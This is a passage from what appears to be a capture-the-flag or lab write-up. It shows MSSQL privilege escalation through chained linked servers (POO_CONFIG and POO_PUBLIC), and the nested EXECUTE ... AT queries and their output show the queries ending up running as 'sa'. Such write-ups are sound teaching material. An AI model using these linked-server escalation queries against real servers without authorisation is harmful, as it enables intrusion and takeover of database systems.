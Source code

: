 The user we found is not an admin.

```bash
SQL (external_user  external_user@master)> EXECUTE ('select name FROM master..syslogins WHERE sysadmin = ''1'';') at [COMPATIBILITY\POO_CONFIG];
name   
----   
sa     

SQL (external_user  external_user@master)> EXECUTE ('SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''SERVER'');') at [COMPATIBILITY\POO_CONFIG];
entity_name   permission_name   
-----------   ---------------   
server        CONNECT SQL    
```

looking at the data in the tables, I found nothing of interest.

I tried to have POO_CONFIG run a command on POO_PUBLIC and it works as seen below.

```bash
SQL (external_user  external_user@master)>  EXEC ('EXEC (''select suser_name();'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];
     
--   
sa  
```

Not only did it succeed, but that command is now being executed as the `sa` user! This misconfiguration occurs because when the two links between the databases were established, the first link allows any user on `POO_PUBLIC` to run queries (i.e., commands) on `POO_CONFIG` as `internal_user`. The second link must have been configured so that any user on `POO_CONFIG` can run queries on `POO_PUBLIC` as `sa`. This second link may have seemed reasonable to an administrator at the time, as only trusted individuals would have access to the internal `POO_PUBLIC`. It's easy to overlook the other link.

Now, when I check my permissions locally on `POO_CONFIG` with the current user, I find that I have almost no privileges:

```bash
SQL (external_user  external_user@master)> EXECUTE ('SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''SERVER'');') at [COMPATIBILITY\POO_CONFIG]
entity_name   permission_name   
-----------   ---------------   
server        CONNECT SQL  
```

However, when I ask POO_CONFIG to POO_PUBLIC, I’ve got all the permissions:

```bash
SQL (external_user  external_user@master)> EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];
entity_name   permission_name                   
-----------   -------------------------------   
server        CONNECT SQL                       

server        SHUTDOWN                          

server        CREATE ENDPOINT                   

server        CREATE ANY DATABASE               

server        CREATE AVAILABILITY GROUP         

server        ALTER ANY LOGIN                   

server        ALTER ANY CREDENTIAL              

server        ALTER ANY ENDPOINT                
```